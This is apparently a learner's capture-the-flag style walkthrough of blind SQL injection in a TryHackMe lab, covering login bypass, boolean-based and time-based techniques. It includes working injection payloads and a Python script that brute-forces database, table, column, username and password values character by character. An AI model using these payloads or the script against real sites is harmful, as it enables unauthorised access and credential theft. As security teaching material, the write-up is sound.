



## Blind SQLi

Unlike In-Band SQL injection, where we can see the results of our attack directly on the screen, blind SQLi is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not, this is because the error messages have been disabled, but the injection still works regardless. It might surprise you that all we need is that little bit of feedback to successfully enumerate a whole database.


### Authentication Bypass

Login forms that are connected to a database of users are often developed in such a way that the web application isn't interested in the content of the username and password but more in whether the two make a matching pair in the users table. In basic terms, the web application is asking the database, "Do you have a user with the username bob and the password bob123?" the database replies with either yes or no (true/false) and, depending on that answer, dictates whether the web application lets you proceed or not. 

### Practical:

Level Two of the SQL Injection examples shows this exact example. We can see in the box labelled "SQL Query" that the query to the database is the following:


`select * from users where username='%username%' and password='%password%' LIMIT 1;`


To make this into a query that always returns as true, we can enter the following into the password field:


`' OR 1=1;--`


Which turns the SQL query into the following:


`select * from users where username='' and password='' OR 1=1;`


Because 1=1 is a true statement and we've used an OR operator, this will always cause the query to return as true, which satisfies the web applications logic that the database found a valid username/password combination and that access should be allowed.



## Boolean Based

Boolean-based SQL Injection refers to the response we receive from our injection attempts, which could be a true/false, yes/no, on/off, 1/0 or any response that can only have two outcomes. That outcome confirms that our SQL Injection payload was either successful or not. On the first inspection, you may feel like this limited response can't provide much information. Still, with just these two responses, it's possible to enumerate a whole database structure and contents.


### Practical:

On level three of the SQL Injection Examples Machine, you're presented with a mock browser with the following URL:

`https://website.thm/checkuser?username=admin`


The browser body contains  `{"taken":true}`. This API endpoint replicates a common feature found on many signup forms, which checks whether a username has already been registered to prompt the user to choose a different username. Because the taken value is set to true, we can assume the username admin is already registered. We can confirm this by changing the username in the mock browser's address bar from admin to admin123, and upon pressing enter, you'll see the value taken has now changed to false.


The SQL query that is processed looks like the following:


`select * from users where username = '%username%' LIMIT 1;`


The only input we have control over is the username in the query string, and we'll have to use this to perform our SQL injection. Keeping the username as admin123, we can start appending to this to try and make the database confirm true things, changing the state of the taken field from false to true.

Our first task is to discover the database name. We can do this by using the built-in database() method and then using the like operator to try and find results that will return a true status.

`admin123' UNION SELECT 1,2,3 where database() like '%';--`


We get a true response because, in the like operator, we just have the value of %, which will match anything as it's the wildcard value. If we change the wildcard operator to `a%`, you'll see the response goes back to false, which confirms that the database name does not begin with the letter a. We can cycle through all the letters, numbers and characters such as - and _ until we discover a match. If you send the below as the username value, you'll receive a true response that confirms the database name begins with the letter `s`.

To automatic the process, I used the following script:

```python
import requests
import string

url = "https://10-10-232-209.p.thmlabs.com/run"
chars = string.ascii_letters + string.digits + "_"
currentfound = ""

while True:
    found_char = False  
    for char in chars:
        payload = (
            f"level=3&sql=select * from users where username = 'nglong05' "
            f"union select null, null, null where database() like '{currentfound + char}%';--"
        )
        response = requests.post(url, data=payload)

        if '"message":"true"' in response.text:
            currentfound += char  
            print(f"Current database name: {currentfound}")
            found_char = True
            break  

    if not found_char:
        print(f"Final database name: {currentfound}")
        break
```

We got the database name: **sqli_three**, now that we need to get the table name, simply change the payload as:

```python
payload = (
    f"level=3&sql=select * from users where username = 'nglong05' "
    f"union select null, null, null FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like '{currentfound + char}%';--"
)
```
We got the table **users**, repeat the process to find the column name:
```python
payload = (
    f"level=3&sql=select * from users where username = 'nglong05' "
    f"union select null, null, null FROM information_schema.COLUMNS "
    f"WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like '{currentfound + char}%';--"
)
```
Once I've found the column named id, I continued to find other columns
```python
payload = (
    f"level=3&sql=select * from users where username = 'nglong05' "
    f"union select null, null, null FROM information_schema.COLUMNS "
    f"WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like '{currentfound + char}%' and COLUMN_NAME !='id';--"
)
``` 
Repeating this process three times will enable you to discover the columns' id, username and password. Which now you can use to query the users table for login credentials. First, you'll need to discover a valid username, which you can use the payload below:

```python
payload = (
    f"level=3&sql=select * from users where username = 'nglong05' "
    f"UNION SELECT 1,2,3 from users where username like '{currentfound + char}%"
)
``` 
Once you've cycled through all the characters, you will confirm the existence of the username admin. Now you've got the username. You can concentrate on discovering the password. The payload below shows you how to find the password:

```python
payload = (
    f"level=3&sql=select * from users where username = 'nglong05' "
    f"UNION SELECT 1,2,3 from users where username='admin' and password like '{currentfound + char}%"
)
``` 


## Time-Based


A time-based blind SQL injection is very similar to the above boolean-based one in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete. This time delay is introduced using built-in methods such as SLEEP(x) alongside the UNION statement. The SLEEP() method will only ever get executed upon a successful UNION SELECT statement. 


So, for example, when trying to establish the number of columns in a table, you would use the following query:


`admin123' UNION SELECT SLEEP(5);--`


If there was no pause in the response time, we know that the query was unsuccessful, so like on previous tasks, we add another column:


`admin123' UNION SELECT SLEEP(5),2;--`


This payload should have produced a 5-second delay, confirming the successful execution of the UNION statement and that there are two columns.


You can now repeat the enumeration process from the Boolean-based SQL injection, adding the SLEEP() method to the UNION SELECT statement.

If you're struggling to find the table name, the below query should help you on your way:


`referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--`

